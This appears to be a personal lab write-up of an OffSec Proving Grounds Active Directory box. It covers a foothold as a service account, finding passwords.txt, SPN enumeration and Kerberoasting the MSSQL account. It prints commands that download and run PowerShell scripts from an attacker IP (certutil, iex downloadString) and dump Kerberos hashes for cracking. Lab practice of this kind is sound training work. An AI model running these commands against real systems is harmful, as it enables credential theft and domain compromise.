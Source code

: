 ![[PG/Active Directory/attachments/Pasted image 20250707155605.png]]
- click itttt

And I'm in 

![[PG/Active Directory/attachments/Pasted image 20250707155635.png]]

I'm an svc user so likely need to priv esc. 

![[PG/Active Directory/attachments/Pasted image 20250707155712.png]]

Start looking for other creds.. Let's speed this up...

![[PG/Active Directory/attachments/Pasted image 20250707155831.png]]

There is a passwords.txt 

![[PG/Active Directory/attachments/Pasted image 20250707160025.png]]
- looks like defaults...except for the webdav user..


Here are the C:\Users

![[PG/Active Directory/attachments/Pasted image 20250707160236.png]]
- need to pivot to svc_mssql

Apache and MSSQL are service accounts so we can think about searching for SPNs

Try this script suggested from writeup. `Get-SPN.ps1`

```
certutil -urlcache -split -f http://192.168.45.152/Get-SPN.ps1
powershell -ExecutionPolicy Bypass
.\Get-SPN.ps1
```

![[PG/Active Directory/attachments/Pasted image 20250707164436.png]]
- got one SPN -> `MSSQLSvc/DC.access.offsec`

Use `Invoke-Kerberoast.ps1`

https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1

```
Add-Type -AssemblyName System.IdentityModel
```

Then execute 

```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'
iex(new-object net.webclient).downloadString('http://192.168.45.152:80/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat Hashcat
```

Well okay then. That worked.
